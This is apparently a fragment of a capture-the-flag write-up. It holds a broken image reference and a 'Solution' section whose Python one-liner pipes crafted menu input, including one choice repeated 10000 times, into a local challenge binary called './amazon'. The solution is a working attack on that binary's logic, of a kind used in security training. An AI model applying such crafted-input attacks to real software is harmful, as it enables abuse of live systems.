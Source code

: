 ## Solution 

python -c 'print "jbezos\n" + "$money$\n" + "1\n" * 10000 + "2\n" + "1111\n" + "3\n"' | ./amazon
